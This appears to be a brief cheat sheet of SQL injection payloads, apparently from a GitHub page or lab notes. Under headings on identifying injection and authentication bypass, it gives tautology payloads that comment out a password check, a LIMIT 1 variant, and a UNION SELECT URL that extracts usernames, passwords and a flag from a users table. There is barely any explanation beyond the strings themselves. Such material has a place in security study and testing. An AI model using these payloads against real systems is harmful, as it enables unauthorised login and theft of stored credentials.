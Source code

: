 ### Identifying SQL Injection Vulnerabilities
```
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```

### Authentication Bypass
```
Some programming languages have functions that query the database and expect a single record. If these functions get more than one row, they will generate an error
select * from users where name = 'tom' or 1=1 LIMIT 1;#
http://url/debug.php?id=1+UNION+SELECT+id,username,password,flag,time+FROM+users
```
